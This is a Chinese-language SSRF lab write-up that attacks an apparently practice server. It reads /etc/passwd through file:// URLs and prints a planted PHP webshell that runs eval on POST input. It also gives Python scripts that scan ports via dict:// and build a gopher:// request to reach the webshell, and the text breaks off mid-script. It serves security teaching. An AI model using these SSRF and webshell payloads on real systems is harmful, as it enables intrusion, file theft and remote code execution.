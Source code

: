 ### SSRF练习

1. 读取password所在文件：`http://oj.momomoxiaoxi.com:9090/index.php?url=file:///etc/passwd` → 一般只用于测试payload是否有效。
2. 使用dirsearch对目标进行扫描： `python dirsearch.py http://oj.momomoxiaoxi.com:9090 -e php`
3. 扫描出一个 `robots.txt` 文件，我们再用第一步的方法访问该文件 → `http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/robots.txt` → 其中 `/var/www/html/` 是Apache的根文件夹，扫描文件没有越权无法获得操作系统的根文件夹，认为Apache的入口文件夹为根文件夹
4. 在robots.txt文件中存在一个 `webshe11111111.php` 文件，我们用同样的方法访问该文件 → `view-source:http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/webshe11111111.php` 得到php源代码：

```php
<?php
$serverList = array(
    "127.0.0.1"
);
$$ip = $$_SERVER['REMOTE_ADDR'];
foreach ($$serverList as $$host) {
    if ($$ip === $$host) {
        if ((!empty($$_POST['admin'])) and $$_POST['admin'] === 'h1admin') {
            @eval($_POST['hacker']);
        } else die("You aren't admin!");
    } else die('This is webshell');
} ?>
```

1. 利用dict协议查看端口开启情况，以下为编写Python脚本：

```python
import requests

url = 'http://oj.momomoxiaoxi.com:9090/index.php?url='
defaultlen = len(requests.get(url+'dict://127.0.0.1:0/info').content)
print("defaultlen:%d"%defaultlen)

for x in range(1000):
    try:
        response = requests.get(url+'dict://127.0.0.1:%s/info'%str(x))
        if len(response.content) != defaultlen:
            print("Port %s, content: %s"%(str(x), response.content))
    except Exception as e:
        print(e)
        pass
```

1. 我们发现22端口和80端口处于开启状态，其中80端口返回400 Bad Request，我们尝试使用9090端口作为跳板攻击80端口
2. 配置本地环境：使用Apache打开两个端口进行测试，在其中一个端口配置之前抓取下来的PHP文件，并向其发送POST请求，使用FireFox抓取发送的数据包，复制进入Python即可获得以下Python脚本：

```python
import urllib.parse
from selenium import webdriver

PostHead = """\
POST /webshe11111111.php HTTP/1.1
Host: 127.0.0.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://127.0.0.1:9090/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: keep-alive
Upgrade-Insecure-Requests: 1

admin=h1admin&hacker=phpinfo();
"""
shellurl = "http://oj.momomoxiaoxi.com:9090/index.php?url=gopher://127.0.0.1:80/"
```